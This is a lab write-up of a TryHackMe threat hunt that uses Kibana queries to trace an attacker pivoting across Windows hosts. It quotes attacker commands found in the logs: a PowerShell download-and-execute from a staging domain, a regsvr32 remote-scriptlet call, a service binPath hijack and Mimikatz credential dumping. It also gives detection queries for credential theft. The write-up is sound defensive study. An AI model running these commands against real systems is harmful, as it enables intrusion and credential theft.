# Threat Hunting: Pivoting, a MITRE ATT&CK Walkthrough

**Disclaimer**: This writeup documents a guided threat hunting exercise structured around the MITRE ATT&CK framework, as scoped by the TryHackMe room it is based on. It is not an exhaustive incident investigation. Host coverage varies by tactic (some hosts are checked for one tactic and not another) because that reflects the boundaries the room itself set, not a limitation in the analysis. Where a finding required correlating data across sections the room presents separately, this is called out explicitly as an Analyst's Note.

**TL;DR**: Continuation of the Foothold investigation into the post-compromise pivoting phase, across four hosts and four MITRE tactics (Discovery, Privilege Escalation, Credential Access, Lateral Movement). WKSTN-2 (10.10.184.105) is confirmed as the operational pivot machine behind the internal port scan and AD enumeration. Privilege escalation happens twice, independently: PrintSpoofer against IIS's DefaultAppPool on the internal web server, and a hijacked service binary on WKSTN-2 itself. Four separate credential access techniques (Mimikatz, an LSASS process dump, DCSync, and account brute-forcing) feed into a WMI and Pass-the-Hash based lateral movement into WKSTN-1. A single staging domain shows up in three different tactics on three different hosts, tying the entire sequence together as one continuous operation rather than four unrelated findings. Full methodology and reasoning below.

## Environment

- **INTSRV01** (Windows Server 2019): internal web application server.
- **WKSTN-1** (Windows 10): employee workstation, user clifford.miller.
- **WKSTN-2** (Windows 10): employee workstation, user bill.hawkins, IP 10.10.184.105.
- **DC01** (Windows Server 2019): domain controller.

Two indices back the hunt: **winlogbeat-\*** (Windows Event Logs and Sysmon) and **packetbeat-\*** (network traffic across the environment).

## Lab Objective

Pick up where Foothold left off and hunt for how the attacker moved from an initial workstation compromise into broader internal access. The investigation follows four MITRE ATT&CK tactics in sequence, Discovery, Privilege Escalation, Credential Access, and Lateral Movement, treating each confirmed finding as a pivot point for the next query rather than a closed case.

## Tools and Technologies

- Kibana Discover and Lens Visualize
- KQL (Kibana Query Language)
- Sysmon via winlogbeat (Event ID 1: process creation, Event ID 3: network connection, Event ID 11: file creation, Event ID 13: registry value set)
- Windows Security Event Log (Event ID 4624: successful logon, Event ID 4625: failed logon, Event ID 4662: directory service object access)
- VirusTotal for hash and binary attribution

## Tactic: Discovery

### Host Reconnaissance

Built-in Windows enumeration tools blend easily with legitimate sysadmin activity, so the hunt starts broad: every process creation event for the usual host-recon binaries, across all hosts, on the day in question.

```
winlog.event_id: 1 AND process.name: (whoami.exe OR hostname.exe OR net.exe OR
systeminfo.exe OR ipconfig.exe OR netstat.exe OR tasklist.exe)
```



36 hits, all on WKSTN-2, all under bill.hawkins, all spawned through cmd.exe: `whoami /priv`, `ipconfig`, `whoami && hostname`, `whoami /all && ipconfig && net users && net localgroup administrators`, `systeminfo`, three separate `net group /domain` queries (plain, "Domain Controllers", "Domain Admins"), and `tasklist /svc && sc.exe query`. On its own this looks like a sysadmin doing a remote troubleshooting pass. What breaks that read is the parent chain.

Pulling the process detail for the first `whoami /priv` execution surfaces `process.parent.pid: 6324`, the cmd.exe instance behind all of it.



```
host.name: WKSTN-2* AND winlog.event_id: 1 AND process.pid: 6324
```



That cmd.exe was spawned by PowerShell with a hidden window, no profile, execution policy bypass, and an `IEX ((new-object net.webclient).downloadstring(...))` call against `http://www.oneedirve.xyz/321c3cf/INSTALL.txt`. This is the same staging domain from the Foothold chain (a typosquat of onedrive.com), now driving a live enumeration session on WKSTN-2. The recon itself isn't the finding, the delivery mechanism behind it is.

### Internal Network Scanning

Internal traffic gets a pass by default because it's assumed to come from legitimate services. A port scan against a reachable host breaks that assumption by generating connections to a large number of distinct destination ports from a single source in a short window, which is exactly the kind of thing a raw event list buries and an aggregation surfaces immediately.

A Lens table over packetbeat, rows on host.name / source.ip / destination.ip, metric on unique count of destination.port, restricted to well-known ports:

```
source.ip: 10.0.0.0/8 AND destination.ip: 10.0.0.0/8 AND destination.port < 1024
```



WKSTN-2 (10.10.184.105) and INTSRV01 (10.10.122.219) both show 1,023 unique destination ports on the same pair, which is functionally a full well-known-port sweep. Correlating with Sysmon Event ID 3 to find the responsible process:

```
winlog.event_id: 3 AND source.ip: 10.10.184.105 AND destination.ip: 10.10.122.219
AND destination.port < 1024
```



`n.exe`, under bill.hawkins, hit ports 80, 135, 139, and 445 successfully (Sysmon Event ID 3 only logs completed connections, so every port here was confirmed open). A user account running a port scanner against another internal server is not a routine operation. Pulling the process creation for `n.exe` itself:

```
winlog.event_id: 1 AND process.name: n.exe
```



Same pattern as the earlier recon chain: PowerShell launched it. WKSTN-2 is now confirmed as the source of an active internal port sweep against INTSRV01, using the access established through the same PowerShell foothold seen in the previous section.

### Active Directory Enumeration

Domain enumeration generates LDAP traffic, which is also generated legitimately by an internal AD-integrated network, so the useful filter isn't "LDAP happened" but "which process initiated it." Hunting Sysmon Event ID 3 on ports 389 and 636, excluding mmc.exe (a routine source of benign LDAP connections):

```
winlog.event_id: 3 AND source.ip: 10.0.0.0/8 AND destination.ip: 10.0.0.0/8 AND
destination.port: (389 OR 636) AND NOT process.name: mmc.exe
```



10 hits from WKSTN-2 under bill.hawkins. Six are PowerShell, three are SharpHound.exe, and one is chisel.exe. SharpHound is a known BloodHound collector, purpose-built to harvest AD relationships and privilege paths. Its command line confirms full collection:

```
winlog.event_id: 1 AND process.name: SharpHound.exe
```



`"C:\Users\bill.hawkins\Documents\sharp\SharpHound.exe" -c all`, parent powershell.exe. This is the attacker mapping the domain from the pivot machine before deciding where to escalate and move next.

The single `chisel.exe` hit in the same result set is worth flagging on its own terms. Chisel is a TCP tunneling tool, exactly the kind of thing that shows up when an attacker needs to reach a host or port that isn't otherwise routable, which is thematically the core of a room called Pivoting. It surfaced here because it happened to make an LDAP-port connection, not because this scenario went looking for it, and the room's own narrative doesn't pursue it any further. I'm noting it as an observed but unexplored artifact rather than building a finding on top of it, since nothing in the available data confirms what it was tunneling or why.

## Tactic: Privilege Escalation

### SeImpersonatePrivilege Abuse

SeImpersonatePrivilege lets a process take on another account's security context, and by default that privilege is held by several built-in service accounts, including IIS's application pool identities. A process that goes from a low-privileged parent straight to a SYSTEM child is the signature to hunt.

```
winlog.event_id: 1 AND user.name: SYSTEM AND NOT winlog.event_data.ParentUser:
"NT AUTHORITY\SYSTEM"
```



6 hits. The smss.exe entries on WKSTN-1 and the TiWorker.exe entries on DC01 are normal OS boot and servicing activity. The INTSRV01 entry is not: `IIS APPPOOL\DefaultAppPool` spawned `spoofer.exe` via `regsvr32 /s /n /u /i:http://www.oneedirve.xyz/321c3cf/teams.sct scrobj.dll`, ending in a SYSTEM process. That's the same staging domain from Discovery, now delivering a Squiblydoo-style scriptlet execution against a web server.



The immediate parent is an obfuscated, base64-encoded PowerShell command, one layer removed from the regsvr32 call. Checking the binary's hash against VirusTotal:



56 of 70 vendors flag it, attributed to PrintSpoofer, a well-known tool that abuses the Print Spooler service via named pipe impersonation to escalate a SeImpersonatePrivilege holder to SYSTEM. DefaultAppPool has that privilege by default, which is exactly why a web server compromise translated cleanly into full SYSTEM access.

### Excessive Service Permission Abuse

A second, independent escalation happens on WKSTN-2 itself, through service misconfiguration rather than a named exploit. Hunting registry writes to any service's ImagePath value, the field that controls what binary a service actually runs:

```
winlog.event_id: 13 AND registry.path:
*HKLM\\System\\CurrentControlSet\\Services\\*\\ImagePath*
```



20 hits. Most are ordinary svchost.exe values or `-k` service group arguments. Two are not: the SNMPTRAP and Spooler services on WKSTN-2 both had their ImagePath rewritten to `C:\Users\bill.hawkins\Documents\update.exe`. Repointing a legitimate service's binary path is a direct way to get arbitrary code to run under whatever account context that service starts with.

Using View Surrounding Documents on the SNMPTRAP modification, filtered to process creation events:



The event immediately before it is `sc.exe`, executed by bill.hawkins.



`sc.exe config SNMPTRAP binPath= C:\Users\bill.hawkins\Documents\update.exe`. Bill.hawkins isn't a member of SYSTEM, but he was able to reconfigure a service that runs under it, which points to either excessive permissions granted to his account or a misconfigured ACL on the service object itself. The cause is the registry write. The consequence follows immediately after:



`sc.exe start SNMPTRAP`. Confirming the payload actually executed under the service context:

```
winlog.event_id: 1 AND process.parent.name: services.exe AND process.name: update.exe
```



5 hits, all SYSTEM, all parented by services.exe. The service abuse worked: bill.hawkins now has a SYSTEM-level execution path on WKSTN-2 that's independent of the PrintSpoofer path on INTSRV01. Two hosts, two different privilege escalation techniques, same operator.

## Tactic: Credential Access

### LSASS Credential Dumping

With privileged access secured on two hosts, the next objective is harvesting more credentials to keep moving. Hunting known Mimikatz command-line strings:

```
winlog.event_id: 1 AND process.command_line: (*mimikatz* OR *DumpCreds* OR
*privilege\:\:debug* OR *sekurlsa\:\:*)
```



3 hits, on WKSTN-1, under clifford.miller: a PowerShell version of Mimikatz pulled from GitHub (`Invoke-Mimikatz.ps1 -DumpCreds`), with output redirected to `\\127.0.0.1\ADMIN$\`. The parent process on all three is `wmiprvse.exe -secured -Embedding`, which means this wasn't run interactively on WKSTN-1. It was triggered remotely, through WMI. I'll come back to that when Lateral Movement confirms the same signature.

As an alternative to Mimikatz, a straight Task Manager process dump of lsass.exe leaves its own trace, a file named `lsass.DMP` written to the user's Temp directory.

```
winlog.event_id: 11 AND file.path: *lsass.DMP
```



1 hit, WKSTN-2, bill.hawkins, via Taskmgr.exe. Unlike the WKSTN-1 dump, this one is local, bill.hawkins dumping his own host's LSASS process using the SYSTEM-level access already gained through the service hijack.

### Credential Harvesting via DCSync

DCSync abuses the legitimate MS-DRSR replication protocol domain controllers use to synchronize directory data, including password hashes. The replication request needs specific AD extended rights (DS-Replication-Get-Changes and related GUIDs), which by default only Domain Admins, Enterprise Admins, and DC machine accounts hold.

```
winlog.event_id: 4662 AND winlog.event_data.AccessMask: 0x100 AND
winlog.event_data.Properties: (*1131f6aa-9c07-11d1-f79f-00c04fc2dcd2* OR
*1131f6ad-9c07-11d1-f79f-00c04fc2dcd2* OR *9923a32a-3607-11d2-b9be-0000f87a36b2*
OR *89e95b76-444d-4c62-991a-0facbeda640c*)
```



37 hits on DC01. The account making the request is `backupadm`, a user account, not a DC machine account. That alone is the anomaly, DCSync coming from anywhere other than a DC$ account or a known Domain/Enterprise Admin is close to a zero-false-positive signal.



The only other account making this kind of request is DC01$ itself, which is the expected, benign baseline. backupadm successfully replicating domain data confirms it holds Domain Admin or Enterprise Admin rights, which means whatever credential access got the attacker into backupadm effectively handed over the entire domain.

```
winlog.event_id: 1 AND user.name: backupadm
```



70 hits, mostly `whoami` and directory navigation commands with output redirected through `\\127.0.0.1\ADMIN$\`, the same command construction seen elsewhere in this investigation. backupadm was compromised and is being driven remotely, consistent with credentials harvested from one of the LSASS dumps already found. The data available here doesn't confirm which dump produced the backupadm hash specifically, so I'm flagging that as an open thread rather than asserting it.

### Brute-Forcing Accounts

Brute-forcing leaves a very specific shape in authentication logs: a high volume of failures against one account, followed by a single success. A Lens table over failed logons (Event ID 4625), grouped by host and user:



jade.burke stands out at 91 failed attempts against WKSTN-1, well above the administrator entries on DC01 (15 and 3), which look more like routine mistyped credentials than an attack.

```
winlog.event_id: 4625 AND user.name: jade.burke
```



Every failure is a Logon Type 3 (network) from 10.10.184.105, WKSTN-2's own IP. Confirming a successful authentication followed:

```
winlog.event_id: 4624 AND user.name: jade.burke and source.ip: 10.10.184.105
```



16 successful authentications from the same source. The brute-force worked. Checking what jade.burke actually did once inside:

```
host.name: WKSTN-1* AND winlog.event_id: 1 AND user.name: jade.burke
```



15 hits, including `net user /domain` and, notably, the exact same command seen against INTSRV01 in Privilege Escalation: `regsvr32 /s /n /u /i:http://www.oneedirve.xyz/321c3cf/teams.sct scrobj.dll`.

**Analyst's Note**: this is the third confirmed appearance of `oneedirve.xyz/321c3cf`, first as the PowerShell downloadstring source on WKSTN-2 during Discovery, then as the PrintSpoofer delivery mechanism on INTSRV01 during Privilege Escalation, and now as the payload jade.burke executes on WKSTN-1 after being brute-forced. The room presents these as three separate tactic-scoped findings, but they share one staging domain across three hosts. That's a single operator running one consistent toolkit through the entire pivoting phase, not three unrelated incidents. In a real investigation, a reused staging domain like this is a stronger and more durable indicator to pivot on across the whole environment than any single host's local artifacts.

## Tactic: Lateral Movement

### Lateral Movement via WMI

WMI is legitimate infrastructure for remote administration, which is also exactly why it's a durable lateral movement technique, it rarely gets blocked outright. `WmiPrvSE.exe` spawning a child process is the indicator to hunt.

```
winlog.event_id: 1 AND process.parent.name: WmiPrvSE.exe
```



27 hits on WKSTN-1, under clifford.miller. The command construction, `cmd.exe /Q /c cd \ 1> \\127.0.0.1\ADMIN$\__1688924047.711874 2>&1`, is a known signature of Impacket's wmiexec.py: no interactive shell, output written to a temp file on ADMIN$, read back, then deleted. This is the exact pattern behind the Mimikatz execution flagged earlier in Credential Access.

Using View Surrounding Documents to find the authentication event closest to the first WMIExec call:





Logon Type 3 (network), source 10.10.184.105, LogonProcessName NtLmSsp, NTLM V2, KeyLength 128, Elevated Token: Yes. WKSTN-2 authenticated to WKSTN-1 as clifford.miller and immediately began executing commands remotely through WMI, which is the same source IP behind every finding in this investigation so far.

**Analyst's Note**: the timestamps tie this directly back to the Mimikatz dump in Credential Access. The `Invoke-Mimikatz -DumpCreds` execution on WKSTN-1 was itself parented by `wmiprvse.exe -secured -Embedding`, meaning it was one of these same remote WMI calls, not a separate technique running in isolation. Credential Access and Lateral Movement aren't sequential phases here, they're the same continuous WMI session: the attacker used wmiexec.py to reach WKSTN-1, ran Mimikatz through that same channel to harvest whatever was cached locally, and kept issuing further commands through the identical mechanism afterward. The room's tactic-based structure splits this into two sections; the underlying activity is one thread.

### Authentication via Pass-the-Hash

Pass-the-Hash authenticates using an NTLM hash directly, without ever needing the plaintext password. It has a specific, detectable fingerprint on network logons: Event ID 4624, Logon Type 3, LogonProcessName NtLmSsp, and critically, KeyLength 0, since no session key negotiation happens the way it would with a normal password-based logon.

```
winlog.event_id: 4624 AND winlog.event_data.LogonType: 3 AND
winlog.event_data.LogonProcessName: *NtLmSsp* AND winlog.event_data.KeyLength: 0
```



12 hits. Excluding two ANONYMOUS LOGON entries (a known false positive for this indicator set), both clifford.miller and jade.burke authenticated to WKSTN-1 via Pass-the-Hash, both from 10.10.184.105. This confirms, from a completely independent angle, what the WMI hunt already showed: WKSTN-2 is using harvested hashes, not passwords, to move into WKSTN-1.

Using View Surrounding Documents on clifford.miller's first PtH entry, filtered to process creation:





The subsequent cmd.exe execution matches the exact wmiexec.py command construction from the WMI hunt. Pass-the-Hash and WMI lateral movement aren't two separate findings either, they're the authentication mechanism and the execution mechanism of the same operation, confirmed from two independent log sources.

## Implications for a SOC Analyst

The strongest signal in this entire investigation wasn't any single technique, it was a domain string that showed up three times across hosts the room treats as unrelated. A tactic-scoped playbook is useful for building methodology, but a real investigation has to actively look for the same indicator, account, or source IP crossing tactic boundaries, because attackers don't respect the MITRE matrix while they work. If I'd stopped at "Discovery is done, move to the next tactic" after each section, I would have written up four disconnected findings instead of one operation.

Source IP consistency mattered more here than any individual host compromise. 10.10.184.105 threading through the port scan, the AD enumeration, the WMI execution, and both Pass-the-Hash logons is what confirms WKSTN-2 as the pivot machine, not any single query in isolation.

Aggregation before raw reading is what made both the port scan and the LDAP enumeration visible at all. A raw event list of thousands of DNS or network connection entries hides exactly what a grouped count surfaces immediately: one source hitting 1,023 ports, or one process account making replication requests nobody else makes.

DCSync from a non-DC, non-admin account is one of the few detections in this entire chain that tolerates close to zero false positives, and it deserves an alerting posture to match. The same is true of any regsvr32 call loading a remote .sct file, or a process dumping lsass.exe outside of a documented troubleshooting window.

Finally, detecting wmiexec.py by its command construction (`cmd.exe /Q /c * 1> \\127.0.0.1\ADMIN$\* 2>&1`) rather than by any specific filename or hash is the more durable approach. The tool's authors can rename the binary; the redirection pattern needed to get output back through WMI's constraints is much harder to change without rewriting the tool itself.

---